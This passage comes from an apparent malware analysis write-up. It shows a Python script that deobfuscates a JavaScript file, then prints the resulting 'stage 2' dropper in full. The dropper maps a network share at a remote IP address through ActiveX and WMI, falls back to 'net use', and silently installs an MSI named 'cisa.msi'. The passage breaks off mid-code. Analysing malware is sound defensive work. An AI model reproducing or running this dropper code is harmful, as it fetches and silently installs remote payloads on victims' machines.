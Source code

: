 ```python
        if line.startswith('////'):
            # remove leading four slashes + any extra spaces, then add to code lines
            code_lines.append(line[4:].lstrip())
        elif not line.startswith('//'):
            # if line doesn't start with "//", it's legitimate code, add it as is
            code_lines.append(line)

    # write extracted code lines to output file
    with open(output_file, 'w') as file:
        file.writelines(code_lines)

# example
input_file = '4ff60df7d165862e652f73752eb98cf92202a2d748b055ff1f99d4172fa4c92f.js'  # replace with input file name
output_file = 'dropper-clean.js'  # replace with output file name

extract_code_lines(input_file, output_file)

```

this script outputs to a cleaned-up file, which is the unobfuscated dropper.

## stage 2: the [unobfuscated] dropper

```js

var network = new ActiveXObject("WScript.Network");
var wmi = GetObject("winmgmts:\\\\.\\root\\cimv2");
var attempt = 0;
var connected = false;
var driveLetter, letter;
function isDriveMapped(letter) {
var drives = network.EnumNetworkDrives();
for (var i = 0; i < drives.length; i += 2) {
if (drives.Item(i) === letter) {
return true;
}
}
return false;
}
for (driveLetter = 90; driveLetter >= 65 && !connected; driveLetter--) {
letter = String.fromCharCode(driveLetter) + ":";
if (!isDriveMapped(letter)) {
try {
network.MapNetworkDrive(letter, "\\\\95.164.3.171@80\\share\\");
connected = true;
break;
} catch (e) {
attempt++;
}
}
}
if (!connected && attempt > 5) {
var command = 'net use ' + letter + ' \\\\95.164.3.171@80\\share\\ /persistent:no';
wmi.Get("Win32_Process").Create(command, null, null, null);
var startTime = new Date();
while (new Date() - startTime < 3000) {} 
connected = isDriveMapped(letter);
}
if (connected) {
var installCommand = 'msiexec.exe /i \\\\95.164.3.171@80\\share\\cisa.msi /qn';
wmi.Get("Win32_Process").Create(installCommand, null, null, null);
try {
```